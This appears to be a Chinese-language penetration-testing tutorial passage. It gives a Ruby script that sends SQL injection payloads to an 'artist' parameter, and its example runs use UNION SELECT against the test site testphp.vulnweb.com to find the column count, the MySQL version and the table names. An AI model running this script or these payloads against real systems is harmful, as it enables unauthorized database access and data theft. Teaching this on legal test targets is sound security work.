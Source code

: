 ## 基本的 SQLi 脚本作为命令行浏览器

这是一个非常基本的脚本，获取你提供的负载并将其发送到易受攻击的参数，然后将响应返回给你。我将使用([http://testphp.vulnweb.com/](http://testphp.vulnweb.com/))，因为它是合法的测试。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts "" 
```

> 我已经注释掉了 `puts response.body.gsub(/<.*?>/, '').strip` 这一行，并添加了一个自定义的正则表达式来修复我们的目标输出。

让我们来测试一下它的功能

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL 
```
